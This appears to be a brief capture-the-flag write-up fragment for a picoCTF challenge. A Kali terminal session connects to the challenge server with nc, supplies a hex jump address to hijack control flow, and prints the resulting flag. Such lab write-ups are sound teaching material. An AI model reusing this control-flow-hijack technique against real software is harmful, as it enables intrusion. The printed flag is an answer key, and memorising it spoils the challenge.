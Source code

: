 <img width="1696" height="688" alt="winfunc" src="https://github.com/user-attachments/assets/b7c8bebf-0e26-4f02-aee1-d903f9802af5" />






```
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 54532
Enter the address in hex to jump to, excluding '0x': 0040129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_14bc5444}
```
